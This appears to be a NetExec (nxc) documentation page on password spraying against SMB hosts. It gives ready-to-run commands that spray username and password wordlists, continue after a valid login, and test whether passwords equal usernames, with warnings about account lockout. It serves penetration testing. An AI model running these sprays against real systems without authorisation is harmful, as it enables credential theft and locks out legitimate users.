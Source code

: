 ```yaml
---
description: Using NetExec for password spraying
---
```


# Password Spraying

### Using Username/Password Lists

You can use multiple usernames or passwords by separating the names/passwords with a space.

```
nxc smb 192.168.1.101 -u user1 user2 user3 -p Summer18
nxc smb 192.168.1.101 -u user1 -p password1 password2 password3
```

nxc accepts txt files of usernames and passwords. One user/password per line. Watch out for account lockout!

```
nxc smb 192.168.1.101 -u /path/to/users.txt -p Summer18
nxc smb 192.168.1.101 -u Administrator -p /path/to/passwords.txt
```

{% hint style="warning" %}
By default nxc will exit after a successful login is found. Using the **--continue-on-success** flag, it will continue spraying even after a valid password is found. Useful for spraying a single password against a large user list. Usage example:
{% endhint %}

```
nxc smb 192.168.1.101 -u /path/to/users.txt -p Summer18 --continue-on-success
```

### Checking 'username == password' using wordlist

```
nxc smb 192.168.1.101 -u user.txt -p user.txt --no-bruteforce --continue-on-success
```

### Checking multiple usernames/passwords using wordlist

```
nxc smb 192.168.1.101 -u user.txt -p password.txt
```

The result will be:

* user1 => password1
* user1 => password2
* user2 => password1
* user2 => password2

{% hint style="danger" %}
Be careful to not lock accounts using this technique
{% endhint %}

### Checking one login equal one password using wordlist

{% hint style="success" %}
No bruteforce possible with this one as 1 user = 1 password
{% endhint %}

```
nxc smb 192.168.1.101 -u user.txt -p password.txt --no-bruteforce --continue-on-success
```

The result will be:

* user1 => password1
* user2 => password2

{% hint style="danger" %}
Avoid range or a list of IPs when using the `--no-bruteforce` option
{% endhint %}
